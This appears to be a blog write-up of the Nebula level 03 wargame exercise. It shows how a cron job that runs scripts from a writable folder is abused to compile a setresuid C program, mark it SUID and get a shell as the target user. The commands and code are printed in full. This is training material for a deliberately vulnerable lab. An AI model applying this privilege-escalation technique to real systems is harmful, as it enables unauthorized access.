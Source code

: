 ```yaml
---
title: "Exploit Exercises - Nebula 03"
date: "2011-12-04T15:22:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-03.html"
 - "/2011/12/03/exploit-exercises-nebula-03"
---
```


In [this](http://exploit-exercises.com/nebula/level03) challenge, we can see that there's no code for us to exploit, it's something in the system. 
I log in to the system, and look in the /home/flag03 folder, as all the other challenges have started.  I see there's a writable.sh script, which I was guessing was the script getting called on a crontab every couple minutes.  

<!-- more -->

It contained: 

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So this script looks like it will execute anything in the writable.d folder that we put in there.  And after some tinkering, I can see that it's running it as the flag03 user that we want to escalate to. 

My first thoughts were to create a bash script like previous challenges, and have it get created with SUID permissions.  However this didn't work, because apparently bash ignores the SUID bit, for security reasons.  I then read up on using perl, but couldn't get it to work, due to perl's built in protection.  Lastly, I settled on just good old C/C++. I spent forever messing around with this, because I was always setting the uid, but never the euid. When I forgot that, it would run bash, but I'd be the same user. I created this source file, and saved it to /tmp/level03.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setresuid(996, 996, 996);
    setresgid(996, 996, 996);
    system( "/bin/bash" );
    return 0;
}
```

NOTE: The "996" is the userid and groupid for flag03.  I found this by just doing 

```
level03@nebula:/home/flag03$ cat /etc/passwd
```

Now that I have a source file, I need to get the flag03 user to compile it, and mark it SUID, so that when it runs, it works as the user specified.  I did it by using the following command: 

```
level03@nebula:/home/flag03$ echo -e 'gcc -o /home/flag03/level03 /tmp/level03.c;chmod +s,a+rwx /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash
```

This will create a bash script to get picked up by the cron job.  It first compiles the /tmp/level03.c code file and outputs the binary to /home/flag03/level03.  Afterwards it sets the permissions to allow executing (and more technically) as well as SUID.  After this command, I had to wait a couple minutes for it to get picked up by the cron job, but then I ran it, and got access to flag03. 

```
level03@nebula:/home/flag03$ ./level03
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```
